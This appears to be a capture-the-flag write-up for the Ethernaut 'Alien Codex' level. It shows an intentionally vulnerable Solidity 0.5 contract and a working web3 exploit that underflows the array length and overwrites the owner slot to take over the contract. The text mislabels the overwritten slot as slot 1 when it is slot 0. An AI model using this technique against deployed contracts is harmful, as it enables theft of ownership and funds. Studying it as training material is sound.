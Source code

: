 # 19. Alien Codex

You've uncovered an Alien contract. Claim ownership to complete the level.

## Target contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

Go [here](https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/contracts/helpers/Ownable-05.sol) for the sources of the Ownable contract.

## Vulnerability

Before Solidity 0.6.0, the `array.length` allowed read or write operations. So we can easily cause an underflow if we manage to substract 1 to an array length of 0.

0x0000000000000000000000000000000000000000000000000000000000000000 - 1 = 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff

So an array with a length of 2^256 - 1 covers the whole storage space, therefore, the function `revise` allows us to rewrite any slot.

Remember that the storage layout is the following:

- slot 0 : 11 bytes are unused - 1 byte for the boolean value `contact` - 20 bytes for the owner address
- slot 1 : 32 bytes for the size of the array `codex`.

We can easily cause the underflow with the following code :

```js
await contract.make_contact();
await contract.retract();
```

Just to make sure of that we can check the array length :

```js
await web3.eth.getStorageAt(contract.address, 1)
// 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
```

Now we need to compute the storage slot where the array data is stored. A dynamic array in slot `p` has its length stored at `p` and its data stored sequentially at slot `keccak256(p)`.

```js
const dataSlot = web3.utils.soliditySha3("0x0000000000000000000000000000000000000000000000000000000000000001");
// 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6
```

We want to loop back to slot 1 so : 2^256 which on 32 bytes will cause an overflow and loop back to 0:

```js
const dataSlot = new web3.utils.BN("b10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6", 16)
const maxSlot = new web3.utils.BN("ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff", 16);
// Compute the index to reach storage slot 2^256 - 1 (0xffff....ffff) and add 1 to cause an overflow to reach storage slot 0.
const index = maxSlot.sub(dataSlot).add(new web3.utils.BN(1))
```

Let's make sure that we have the right index :

```js
await contract.codex(index);
// 0x000000000000000000000001da5b3fb76c78b6edee6be8f11a1c31ecfb02b272
//   ^^^^^^^^^^^^^^^^^^^^  ^^ ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
//        UNUSED BITS   BOOLEAN        OWNER ADDRESS
```

Now we can rewrite the storage slot 1 with our own address :

```js
// Assuming your personal address is : 0xE613c2d3D36A7934589BC393119eD33Ac165A596
await contract.revise(index, "0x000000000000000000000001E613c2d3D36A7934589BC393119eD33Ac165A596")
```

You can now submit the challenge and move to the next one !

